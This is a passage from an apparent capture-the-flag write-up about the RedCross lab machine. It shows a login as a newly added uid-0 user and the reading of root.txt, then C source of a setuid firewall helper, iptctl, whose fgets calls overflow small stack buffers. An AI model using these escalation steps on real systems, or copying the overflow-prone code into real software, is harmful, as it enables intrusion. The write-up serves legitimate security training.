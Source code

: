 
Now I can exit `pgsql` and sudo into my new user:

    
    
    ro0xdft@redcross:/etc$ su r0xdfot
    Password: 
    r0xdfot@redcross:/etc# id
    uid=0(r0xdfot) gid=0(root) groups=0(root)
    

And read `root.txt`:

    
    
    r0xdfot@redcross:~# cat root.txt 
    892a1f4d...
    

### Path 3: BOF in iptctl

#### Enumeration

From my shell as www-data or penelope, I have access to the `iptctl` binary:

    
    
    penelope@redcross:/dev/shm$ ls -l /opt/iptctl
    total 16
    -rwsr-sr-x 1 root root 13152 Jun 10  2018 iptctl
    

It makes sense that it’s setuid, as only root can mess with the firewall
rules, and I know it’s called by the php applications which are not running as
root.

#### Source Analysis

The overflow happens in the `interactive` function:

    
    
    #define BUFFSIZE 360
    
    void interactive(char *ip, char *action, char *name){
            char inputAddress[16];
            char inputAction[10];
            printf("Entering interactive mode\n");
            printf("Action(allow|restrict|show): ");
            fgets(inputAction,BUFFSIZE,stdin);
            fflush(stdin);
            printf("IP address: ");
            fgets(inputAddress,BUFFSIZE,stdin);
            fflush(stdin);
            inputAddress[strlen(inputAddress)-1] = 0;
            if(! isValidAction(inputAction) || ! isValidIpAddress(inputAddress)){
                    printf("Usage: %s allow|restrict|show IP\n", name);
                    exit(0);
            }
            strcpy(ip, inputAddress);
            strcpy(action, inputAction);
            return;
    }
    